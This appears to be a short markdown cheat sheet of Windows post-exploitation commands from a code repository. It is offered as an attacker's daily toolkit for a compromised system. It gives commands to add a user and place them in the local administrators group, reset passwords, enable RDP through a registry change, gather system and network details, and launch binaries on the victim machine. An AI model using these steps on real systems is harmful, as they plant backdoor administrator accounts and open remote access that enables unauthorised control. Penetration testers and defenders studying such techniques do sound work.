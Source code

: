 # Post Exploitation Cheat Sheet
This module will contain all Windows/DOS post exploitation items that I use on a daily basis.
## Add Admin User
__1. Add the User:__
* `net user /add [username] [password]`

__2. Add the usedr to the Admin Group:__
* `net localgroup administrators [username] /add`

__3. Change a user's password__
* `net user USERNAME NEWPASS`

## Enable RDP (XP+)
This command will enable RDP on a server which the `reg` command is installed. You must have System access to do so, and RDP must be installed.

__1. To enable RDP (must be Windows XP or above as the `reg` command will be used.)__

* `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
## System / Network Info
These commands will return any system or network information and should be done during post exploitation.
* `netstat -ano` OR JUST `netstat -an`
* `systeminfo` (XP+)
## Command Execution
These commands will execute commands or binaries on the compromised Windows(R) System.

__1. To run a binary on the FS of the compromised system from os-shell> in nmap:__

`start /max /d"C:\Program files\foo\" ba.exe -somearguments`
